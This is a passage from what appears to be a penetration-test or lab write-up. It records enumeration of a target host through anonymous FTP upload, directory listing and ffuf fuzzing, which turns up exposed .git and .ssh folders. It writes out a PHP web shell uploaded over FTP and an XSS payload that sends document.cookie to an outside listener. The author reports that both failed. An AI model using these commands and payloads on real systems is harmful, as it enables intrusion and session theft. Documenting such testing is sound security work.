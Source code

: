    ```

  curl -l ftp://anonymous:@13.40.110.252/uploads/
  Test.txt
  test1.txt
	 ```
- **Notes**: The PASV IP mismatch shown in the `nmap` scan is likely why the `ftp` client is struggling, `curl` was used to cleanly handle the mismatch, as it can skip the listed IP: `172.31.14.224` for data connection,  and instead re-use `13.40.110.252`. Initial enumeration points to an image/upload area of the website, where we can successfully upload files, an obvious vector for web/reverse shells later. The only confirm actions are upload, list and delete. LFI via ../../ also does not work.

### 3.2 HTTP Enumeration
- **Visiting** http://13.40.110.252**:
  This takes us to the index root of the site, with `portfolio_one-page-template/` and its subdirectories:
  ```
  [ PARENTDIR]	Parent Directory	 	- 	 
  [TXT]	LICENSE.md	2024-07-02 10:54 	1.1K	 
  [TXT]	README.md	2024-07-02 10:54 	6.0K	 
  [DIR]	build/	2024-07-02 10:54 	- 	 
  [DIR]	dev/	2024-07-02 10:54 	- 	 
  [DIR]	gulp_tasks/	2024-07-02 10:54 	- 	 
  [TXT]	gulpfile.js	2024-07-02 10:54 	57 	 
  [ ]	package.json	2024-07-02 10:54 	1.0K	 
  [DIR]	screenshots/
  ```

- **Web Shell**: 
   Browsing to `portfolio_one-page-template/screenshots/uploads/`, we can find our test1.txt file. Dropping a web shell here works, though it does not execute our php.
   ```
   echo "<?php system($_GET['cmd']); ?>" > shell.php
   curl -v -T shell.php ftp://anonymous:@13.40.110.252/uploads/

   curl "http://13.40.110.252/portfolio_one-page-template/screenshots/uploads/shell.php?cmd=id"
   <?php system($_GET['cmd']); ?>
  ```
    I also tried uploading my own `.htaaccess` with `AddType application/x-httpd-php .php .html .htm` with no success. 

- **XSS**: 
Uploading a `<script>alert(document.domain)</script>` confirms it can render js, so I dropped a basic payload assuming there was a simulated admin/bot and setup my listener. No success there. 
  ```
  fetch('http://18.169.47.172:8080/beacon?' + new URLSearchParams({
  url: location.href,
  cookie: document.cookie
  ```

- **ffuf**:
  ```
  ffuf -w common.txt -u http://13.40.110.252/portfolio_one-page-template/build/FUZZ
  ffuf -w common.txt -u http://13.40.110.252/portfolio_one-page-template/FUZZ
  ```
  Immediate findings are .git and .ssh, .ssh containing a public and private key, id_ed25519, id_ed25519.pub, with the .pub containing a username, BillyTheKid.

- **Notes**: I found nothing remarkable when looking through the underlying logic in .js or any secrets in .cfg files. /build/ gives us a direct render of the site, `gulp_tasks/config/paths.js`does not reference `/screenshots/uploads` at all.


### 3.3 SMTP
  ```